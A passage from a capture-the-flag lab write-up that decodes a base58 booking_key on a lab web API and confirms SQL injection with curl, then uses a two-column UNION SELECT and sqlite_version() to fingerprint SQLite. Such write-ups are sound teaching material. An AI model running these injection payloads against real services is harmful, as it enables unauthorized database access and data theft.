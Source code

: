 We can see the request made in `BurpSuite` as such.

![Web 80 Booking Info Request](web_80_bookinginfo_request.webp){: width="1000" height="450" }

### SQL Injection

Examining the `booking_key`, we can notice it is `booking_id:3380185`, base58 encoded.

```console
$ echo 55oYpt6n8TAVgZajFsDAqhBqE | base58 -d
booking_id:3380185
```

Testing the `booking_id` with some basic `SQL` injection payloads. We see that when we test the cookie as it is, we get the `not found` message. If we append `'` to it, we get the error `bad request`, and if we also append `;-- -` to comment out the rest of the query, we are back to the `not found` message. This confirms the `SQL` injection.

```console
$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185" | base58)
not found                                                                                                                      

$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185'" | base58)
bad request                                                                                                                    

$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185';-- -" | base58)
not found                                                                                                                      
```
{: .wrap }

We are successful at extracting data with a `UNION` attack using two columns.

```console
$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185' UNION SELECT 1;-- -" | base58)
bad request                                                                                                                    

$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185' UNION SELECT 1,2;-- -" | base58)
{"room_num":"1","days":"2"}                                                                                                    
```
{: .wrap }

We are able to fingerprint the database management system as `SQLite` by running the `sqlite_version()` function.

```console
$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185' UNION SELECT sqlite_version(),2;-- -" | base58)
{"room_num":"3.42.0","days":"2"}                                                                                               
```
{: .wrap }
